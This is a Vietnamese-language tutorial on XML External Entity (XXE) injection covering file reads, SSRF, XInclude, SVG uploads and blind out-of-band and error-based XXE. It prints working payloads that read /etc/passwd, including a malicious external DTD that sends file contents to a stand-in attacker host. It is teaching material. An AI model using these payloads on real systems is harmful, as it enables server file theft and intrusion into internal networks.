






# XML External Entity (XXE) Injection
Ở modul này chúng ta sẽ giải thích cách tấn công chèn thực thể XML (XXE)
## Chèn thực thể bên ngoài XML là sao?
Lỗ hổng tấn công chèn thực thể bên ngoài XML (còn được gọi là XXE) là lỗ hổng bảo mật web cho phép kẻ tấn công can thiệp vào quá trình xử lý dữ liệu XML của ứng dụng.
Cho phép kẻ tấn công xem các tệp trên hệ thống và thực thi 
Kẻ tấn công có thể leo thang đặc quyền để xâm phạm máy chủ hoặc cơ sở hạ tầng phụ trợ khác bằng cách lợi dụng XXE để tấn công giả mạo máy chủ SSRF.

## Các lỗ hổng XXE phát sinh như thế nào và ra sao?
Các thực thể bên ngoài XML là thực thể được tùy chỉnh định nghĩa và chúng được tải lên ở bên ngoài được gọi là `DTD` nơi chúng được khai báo. Nó cho phép định nghĩa thực hiện nội dung của đường dẫn tệp hoặc URL
## Các loại tấn công XXE là gì
> Khai thác lỗ hổng XXE để đọc tập tin truy xuất tệp nhạy cảm <br>
> Khai thác lỗ hổng XXE được thực hiện các cuộc tấn công SSRF <br>
> Đánh cắp dữ liệu bên ngoài luồng <br>
> XXE ẩn để lấy dữ liệu thông qua thông báo lỗi <br>
## Khai thác lỗ hổng XXE để lấy tệp tin
Để khai thác lỗ hổng XXE để lấy tệp tin bạn cần chỉnh sửa đổi XML theo 2 cách:
> Định nghĩa một `DOCTYPE` phần tử xác định thực thể bên ngoài đường dẫn tệp <br>
> Chỉnh sửa giá trị dữ liệu trong XML được trả về trong phản hồi của ứng dụng để sử dụng thực thể bên ngoài đã được định nghĩa <br>
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
Ở đây chúng ta có thể tấn công XXE để lấy `/etc/passwd` tập tin bằng cách gửi mã
```xml
<?xml version="1.0" encoing="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
Thì lúc này payload XXE được định nghĩa một thực thể bên ngoài `&xxe;` khi ứng dụng `parse` thì thực thể sẽ chạy nó gọi đến SYSTEM chứa file thực thi `/etc/passwd` kết quả sẽ trả về ở `productID`
```txt
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
## Khai thác lỗ hổng XXE để thực hiện các cuộc tấn công SSRF

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```
## Tìm kiếm bề mặt tấn công ẩn cho phép tiêm mã XXE
Bề mặt tấn công XXE thường khá rõ ràng trong nhiều trường hợp, bởi vì lưu lượng HTTP thông thường của ứng dụng bao gồm các yêu cầu chứa dữ liệu ở định dạng XML.
### Cuộc tấn công mang tên XInclude
Một số ứng dụng nhận dữ liệu do máy khách gửi, nhúng dữ liệu đó vào một tài liệu XML ở phía máy chủ, rồi phân tích cú pháp tài liệu đó.

Trong trường hợp chúng ta không thể thực hiện một cuộc tấn công XXE cổ điển, vì không thể kiểm soát toàn bộ tài liệu XML và do đó không thể định nghĩa hoặc sửa đổi một `DOCTYPE` phần tử.
Vâng tuy nhiên chúng ta có 1 sự lựa chọn thay thế bằng cách sử dụng `XInclude`. `XInclude` là một phần của đặc tả XML cho phép xây dựng tài liệu XML từ các tài liệu con.
Chúng ta có thể đặt một `XInclude` cuộc tấn công vào bất kỳ giá trị dữ liệu nào trong tài liệu XML, vì vậy cuộc tấn công có thể được thực hiện trong các tình huống mà chúng ta chỉ kiểm soát một mục dữ liệu duy nhất được đặt trong tài liệu XML phía máy chủ.
---
Để thực hiện một cuộc tấn công `XInclude` chúng ta cần tham chiếu đến không gian tên `XInclude` và cung cấp đường dẫn tệp mà chúng ta đưa vào.
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
## Tấn công XXE thông qua tải lên tập tin 
Nếu ứng dụng có lỗ hổng XXE mà cho phép người dùng tải lên tập tin ví dụ các định dạng phooer biến như `DOCS` và các định dạng ảnh như `SVG`
Ngay cả khi ứng dụng mong muốn nhận định dạng như PNG hoặc JPEG, thư viện xử lý hình ảnh đang được sử dụng có thể hỗ trợ hình ảnh SVG. Vì định dạng SVG sử dụng XML, kẻ tấn công có thể gửi một hình ảnh SVG độc hại và do đó tiếp cận được bề mặt tấn công ẩn chứa các lỗ hổng XXE.
Payload SVG:
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
## Các cuộc tấn công XXE thông qua loại nội dung đã sửa đổi

Và nếu ứng dụng chấp nhận yêu cầu chưa XML có thể thực hiện cuộc tấn công XXE
## Cách tìm và kiểm tra các lỗ hổng XXE

## Tìm kiếm và khai thác các lỗ hổng XXE ẩn
### XXE mù là gì?
Lỗ hổng XXE mù phát sinh khi ứng dụng dễ bị tấn công bằng phương pháp chèn XXE nhưng không trả về giá trị của bất kỳ thực thể bên ngoài nào được định nghĩa trong phản hồi.
Điều này có nghĩ là việc truy xuất trực tiếp các tệp phía máy chủ là không thể, do đó lỗ hổng XXE mù thường khó khai thác hơn so với các lỗ hổng thường.
Có hai cách chính để tìm và khai thác các lỗ hổng XXE ẩn:
> Có thể kích hoạt các tương tác mạng ngoài luồng, đôi khi làm rò rỉ dữ liệu nhạy cảm trong dữ liệu tương tác đó <br>
> Có thể gây ra lỗi phân tích cú pháp XML theo cách mà các thông báo lỗi chứa dữ liệu nhạy cảm <br>
## Phát hiện XXE mù bằng kỹ thuật ngoài băng tần (OAST)
Kẻ tấn công có thể thực hiện XXE mù bằng kỹ thuật tương tự như đối với các cuộc tấn công XXE SSRF nhưng kích hoạt tương tác mạng ngoài băng tần đến một hệ thống mà chúng ta kiểm soát.
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```
Cuộc tấn công XXE này khiến máy chủ thực hiện yêu cầu HTTP phía máy chủ đến URL được chỉ định. Kẻ tấn công có thể theo dõi quá trình tra cứu DNS và yêu cầu HTTP diễn ra, từ đó phát hiện ra rằng cuộc tấn công XXE đã thành công.
----
Nhưng đôi khi cuộc tấn công XXE sử dụng các thực thể thông thường bị chặn do một số cơ chế xác thực đầu vào của ứng dụng hoặc do việc tăng cường bảo mật của trình phân tích cú pháp XML được sử dụng.
Bằng cách này chúng ta có thể sử dụng thực thể XML nhưng thực thể XML này có thể được tham chiếu ở nơi khác trong DTD (Server kẻ tấn công chẳng hạn).
> Thứ nhất, khai báo của một thực thể tham số XML bao gồm ký tự phần trăm trước tên thực thể: <br>
```xml
<!ENTITY % xxe "abc">
```
> Thứ hai, các thực thể tham số được tham chiếu bằng ký tự phần trăm thay vì kí hiệu và (&) thông thường: <br>

```txt
%xxe;
```
Điều này có nghĩa chúng ta có thể thêm kiểm tra lỗ hổng XXE ẩn bằng cách sử dụng pháp phát hiện ngoài bằng tần thông qua thực thể XML
```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://server_attacker.com/dtd"> %xxe;]>
```
Đoạn mã tấn công XXE này khai báo một thực thể tham số XML có tên `xxe` và sau đó sử dụng thực thể đó trong DTD. Điều này sẽ gây ra việc tra cứu DNS và yêu cầu HTTP đến miền của kẻ tấn công, xác minh rằng cuộc tấn công đã thành công.
## Khai thác lỗ hổng XXE ẩn để đánh cắp dữ liệu ngoài băng tần

Một đoạn DTD độc hại nhằm đánh cắp nội dung của `/etc/passwd` 
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exif SYSTEM "http://attacker_com?x=%file">">
%eval;
%exif;
```
DTD này thực hiện các bước sau:
> 1. Định nghĩa một thực thể tham số XML có tên là `file` chứa tệp `/etc/passwd` <br>
> 2. Định nghĩa một thực thể tham số XML có tên là `eval` chứa một khai báo động của thực thể tham số XML khác tên `exif`. Thực thể này sẽ được đánh giá bằng cachs thực hiện một yêu cầu HTTP tới máy chủ web tấn công, trong đó giá trị `file` chứa trong chuỗi truy vấn URL <br>
> 3.Sử dụng `eval` thực thể này, dẫn đến việc khai báo động thực `exif` hể được thực hiện. <br>
> 4. Sử dụng `exif` thực thể đó để giá trị của nó được đánh giá bằng cách yêu cầu URL được chỉ định. <br>
Kẻ tấn công sau đó lưu trữ DTD độc hại trên hệ thống mà chúng kiểm soát bằng cach tải nó lên máy chủ web riêng.
```http
http://web-attacker.com/malicious.dtd
```
Cuối cùng, kẻ tấn công phải gửi đoạn mã XXE sau đến ứng dụng dễ bị tổn thương:
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```
Đoạn mã tấn công XXE này khai báo một thực thể tham số XML có tên xxevà sau đó sử dụng thực thể đó trong DTD. Điều này sẽ khiến trình phân tích cú pháp XML lấy DTD bên ngoài từ máy chủ của kẻ tấn công và diễn giải nó trực tiếp. Các bước được định nghĩa trong DTD độc hại sau đó được thực thi và tệp `/etc/passwd` được truyền đến máy chủ của kẻ tấn công.

## Khai thác lỗ hổng XXE ẩn để lấy dữ liệu thông qua thông báo lỗi.
Một cách tiếp cận khác để khai thác lỗ hổng XXE ẩn là tạo ra lỗi phân tích cú pháp XML, trong đó thông báo lỗi chứa dữ liệu nhạy cảm mà bạn muốn lấy. Điều này sẽ hiệu quả nếu ứng dụng trả về thông báo lỗi đó trong phản hồi của nó.
Bạn có thể kích hoạt thông báo lỗi phân tích cú pháp XML chứa nội dung của `/etc/passwd` tệp bằng cách sử dụng DTD bên ngoài độc hại như sau:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
DTD thực hiện các bước như phần trên.
## Khai thác lỗ hổng XXE ẩn bằng cách tái sử dụng DTD cục bộ
